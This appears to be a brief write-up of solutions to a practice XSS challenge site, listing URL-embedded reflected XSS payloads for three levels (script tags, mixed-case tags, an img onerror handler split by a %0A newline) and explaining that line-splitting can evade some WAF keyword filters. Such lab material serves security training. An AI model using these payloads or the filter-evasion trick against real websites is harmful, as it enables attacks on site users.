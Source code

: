 Level 1: [http://www.zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>](https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E) \
Level 2: [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E) \
Level 3:[(https://zixem.altervista.org/XSS/3.php?name=zxm%0A<img src=”x” onerror=alert(1337)>)](https://zixem.altervista.org/XSS/3.php?name=zxm%0A%3Cimg%20src=%E2%80%9Dx%E2%80%9D%20onerror=alert(1337)%3E))
Using %0A URL-encoded representation of a newline character (Line Feed, LF, \n) in ASCII and UTF-8 encoding.
Some WAFs only scan for dangerous keywords within a single line. If an attack payload is split across multiple lines (e.g., using %0A for a newline), the filter may fail to detect it, allowing bypass techniques for XSS, SQLi, and other attacks.

